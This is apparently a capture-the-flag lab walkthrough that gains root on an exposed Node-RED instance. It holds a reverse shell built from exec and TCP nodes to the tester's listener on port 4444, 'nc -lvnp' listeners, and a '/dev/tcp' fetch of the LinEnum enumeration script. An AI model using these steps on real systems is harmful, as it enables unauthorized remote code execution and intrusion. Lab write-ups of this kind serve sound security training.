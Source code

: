 Intercept on Burp Suite:

Since it cannot do a get request, let's change it to a POST request:

Proxy => Right Click => Change Request Method

```
POST / HTTP/1.1
Host: 10.129.172.204:1880
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

Burp Suite => Forward

```
{"id":"bdeddbc78d93f8cfb254b0c4666751c1","ip":"::ffff:10.10.16.10","path":"/red/{id}"}
```

Firefox:

	http://10.129.172.204:1880/red/bdeddbc78d93f8cfb254b0c4666751c1	// disable Intercept
	
```
exec => (Command: whoami) => Deploy	// no output, REMOVE COMMAND
tcp input	=> Connect to Port 4444; at host <my_ip> => Done
tcp output	=> Reply to TCP => Done
connect std in/out/error to tcp output
```

Listen for connection:

	nc -lvnp 4444

```
[object Object]whoami
root
```

We don't have a full shell:

	cd ..
	pwd

```
/node-red
```

Upload enumeration script:

	python3 -m http.server 80		// host script
	nc -lvnp 8000 < LinEnum.sh		// serve script
	cat < /dev/tcp/10.10.16.10/8000	// No such file


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html